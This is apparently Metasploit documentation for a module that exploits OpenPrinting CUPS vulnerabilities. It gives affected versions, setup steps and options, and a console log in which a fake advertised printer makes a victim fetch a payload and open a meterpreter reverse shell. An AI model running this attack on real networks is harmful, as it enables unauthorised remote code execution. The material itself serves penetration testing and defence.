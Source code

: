 ## Vulnerable Application

This module exploits vulnerabilities in OpenPrinting CUPS that allow an attacker on the LAN to advertise a malicious printer that triggers remote code execution when a victim sends a print job to it. For a technical analysis of the vulnerability, read the [original researcher's publication](https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/). The vulnerabilities affect the following components and versions:

- cups-browsed <= 2.0.1
- libcupsfilters <= 2.1b1
- libppd <= 2.1b1
- cups-filters <= 2.0.1

Successful exploitation requires user interaction (victim must attempt to print to the malicious printer), but no CUPS services need to be reachable via accessible ports. Code execution occurs in the context of the 'lp' user. NOTE: Many mNDS multicast advertisements will be sprayed by this module to increase the odds of automatically populating the victim's printer list.

## Testing

The module has been tested against Ubuntu 22.04 with an unpatched default CUPS installation. The exploit should work against most Linux distributions that use a vulnerable version of CUPS for printing.

## Verification Steps

1. Start msfconsole
2. `use exploit/multi/misc/cups_ipp_remote_code_execution`
3. `set SRVHOST <YOUR_IP_ADDRESS>` (cannot be 0.0.0.0)
4. `set LHOST <YOUR_IP_ADDRESS>`
5. `set PrinterName <PRINTER_NAME>` (defaults to "PrintToPDF")
6. `exploit`
7. From a victim system on the LAN, open a printer dialog. For example, browse to any web page in Firefox and press Ctrl+P.
8. Select the malicious printer from the printer selection dropdown. When the victim has fetched the FoomaticRIP payload from the malicious IPP server, the "Print" button should become clickable.
9. Click "Print". A new meterpreter session should open.

## Options

### PrinterName

The name of the malicious printer to advertise on the network. Default: PrintToPDF

### SRVHOST

The local host address to listen on. This must be set to a specific interface address, not 0.0.0.0, since it's used in mDNS advertisements

### SRVPORT

The local port for the IPP service. Default: 7575

## Scenarios

### Linux Command

Note: The listener should be left running until a victim interacts with the fake printer. By default, the 'WfsDelay' stager time value is 10800 seconds, or three hours

```
[msf](Jobs:0 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >> show options

Module options (exploit/multi/misc/cups_ipp_remote_code_execution):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   PrinterName  PrintToPDF       yes       The printer name
   SRVHOST                       yes       The local host to listen on (cannot be 0.0.0.0)
   SRVPORT      7575             yes       The local port for the IPP service
   SSL          true             no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                       no        The URI to use for this exploit (default is random)


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      JXrkCMgtG        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >> set SRVHOST 192.168.5.2
SRVHOST => 192.168.5.2
[msf](Jobs:0 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >> set LHOST 192.168.5.2
SRVHOST => 192.168.5.2
[msf](Jobs:0 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >> set SRVPORT 9596
SRVPORT => 9596
[msf](Jobs:0 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >> set PrinterName Canon
PrinterName => Canon
[msf](Jobs:0 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >> run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.5.2:4444
[msf](Jobs:1 Agents:0) exploit(multi/misc/cups_ipp_remote_code_execution) >>
[*] IPP service started on 192.168.5.2:9596
[*] Services started. Printer 'Canon' is being advertised
[*] The exploit will continue listening for victim callbacks for the next 10800 seconds
[*] Meterpreter session 1 opened (192.168.5.2:4444 -> 192.168.5.251:59248) at 2024-11-11 12:55:55 -0600

[msf](Jobs:1 Agents:1) exploit(multi/misc/cups_ipp_remote_code_execution) >> sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/) > sysinfo
Computer     : 192.168.5.251
OS           : Ubuntu 22.04 (Linux 6.5.0-18-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/) > getuid
Server username: lp
(Meterpreter 1)(/) >
```
